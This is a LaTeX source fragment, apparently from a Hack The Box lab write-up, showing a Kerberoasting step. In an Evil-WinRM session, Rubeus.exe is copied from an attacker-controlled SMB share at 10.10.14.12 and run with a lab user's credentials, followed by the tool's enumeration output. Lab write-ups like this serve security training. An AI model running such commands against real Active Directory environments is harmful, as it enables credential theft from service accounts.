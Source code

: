 \documentclass[a4paper]{article}
\begin{document}
\subsection{Rubeus: kerberoasting attack}
        \begin{lstlisting}[language=Bash, caption=KerberosAsting Attack, linewidth=17.8cm]
*Evil-WinRM* PS C:\windows\temp\temp> copy //10.10.14.12/TMP/Rubeus.exe Rubeus.exe
*Evil-WinRM* PS C:\windows\temp\temp> ./Rubeus.exe kerberoast /creduser:HTB.LOCAL\amanda /credpassword:Ashare1972

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : HTB.LOCAL
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)
(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1



\end{lstlisting}
\end{document}
